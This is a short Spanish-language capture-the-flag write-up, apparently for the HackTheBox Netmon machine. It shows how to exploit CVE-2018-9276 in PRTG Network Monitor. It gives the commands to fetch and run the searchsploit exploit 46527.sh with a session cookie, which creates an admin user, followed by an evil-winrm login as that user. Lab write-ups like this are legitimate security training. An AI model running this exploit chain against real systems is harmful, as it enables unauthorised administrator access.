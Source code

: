 #CVE-2018-9276

--------

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag

```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]
